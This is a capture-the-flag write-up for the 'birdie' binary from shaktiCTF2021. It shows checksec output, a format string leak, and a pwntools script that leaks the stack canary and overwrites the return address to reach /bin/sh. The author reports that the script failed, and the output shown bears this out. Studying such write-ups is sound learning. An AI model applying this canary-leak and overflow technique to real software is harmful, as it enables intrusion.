


We are provided a binary called `birdie` and a strong hint that there is a stack canary. Indeed, we can verify the presence of a canary with `checksec`:

```console
root@osboxes:~/Documents/shaktiCTF2021# checksec birdie
[*] '/root/Documents/shaktiCTF2021/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If we open the binary in ghidra, a couple things are clear. It is apparent that there is a format string vulnerability (since our input from the first prompt is fed to `printf`) and that there is a `/bin/sh` available within the binary:




```console
root@osboxes:~/Documents/shaktiCTF2021# ./birdie
Enter your name
%10$p
0xa7024303125
Enter the payload
asdf
```




Here is my attempt at an exploit script. It ended up not working as expected, which I anticipate was due to the presence of null buytes. I tried to url-encode the bytes but this ultimately lead to stack smashing instead of the flag.

```py
from pwn import *

BINARY = './birdie'

# shell address can be found in GDB via 'find "/bin/sh"'
shell = p64(0x400936)

sh = process(BINARY)
print sh.recvline()

# birdie value can be leaked via format string injection on printf
sh.sendline('%15$p')
canary = sh.recvline().decode('utf-8')
canary = int(canary, 16)
log.info('Found canary: {}'.format(canary))
canary = p64(canary)

sh.sendline('A'*72 + canary + shell)

sh.interactive()
```

Here is the output from running the script:

```console
root@osboxes:~/Documents/shaktiCTF2021# python birdie.py 
[+] Starting local process './birdie': pid 2350
Enter your name

[*] Found canary: 16649657875378990336
Enter the payload

[*] Switching to interactive mode
[*] Process './birdie' stopped with exit code 0 (pid 2350)
[*] Got EOF while reading in interactive
$  
```
